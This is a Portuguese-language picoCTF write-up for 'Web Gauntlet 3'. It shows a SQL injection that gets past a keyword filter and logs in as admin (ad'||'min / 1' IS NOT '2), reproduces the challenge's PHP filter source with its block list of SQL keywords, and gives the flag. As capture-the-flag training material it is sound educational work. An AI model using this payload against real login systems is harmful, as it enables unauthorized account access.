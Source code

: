 # Gauntlet 3
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [SQL Injection, Weak Filtering, Session Manipulation]

## Sobre o Desafio  
Last time, I promise!  

**Objetivo:** Log in as admin. 

## 🔗 Links do Desafio

- [Acesse o site](http://mercury.picoctf.net:8650/)  
- [Página de filtragem](http://mercury.picoctf.net:8650/filter.php)    

## Solução  

Acessei o site com essa tela de login:<br>

![image](https://github.com/user-attachments/assets/894f1710-9ef2-4e1e-8d6c-f9b3cf4e3321)

E vi que na url ```http://mercury.picoctf.net:32946/filter.php``` continha os mesmos filtros do Web Gauntlet 2.<br>

![image](https://github.com/user-attachments/assets/e665f986-4d37-4d1b-94ae-722b0079b467)


Com isso minha primeira tentativa foi usar o Login que usei no Web Gauntlet 2, LOGIN:```ad'||'min``` SENHA:```1' IS NOT '2```.
E acabou funcionando!<br>

![image](https://github.com/user-attachments/assets/86f0695b-065b-435b-84b3-4c05235fc10d)

![image](https://github.com/user-attachments/assets/8eae02cb-ddd8-4f51-9d7d-aec65f7337e7)

Com isso o site mandou eu visitar o link ```http://mercury.picoctf.net:32946/filter.php``` novamente e me apresentou o código a seguir:<br>

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```

> Assim, obtemos a flag `picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}`  

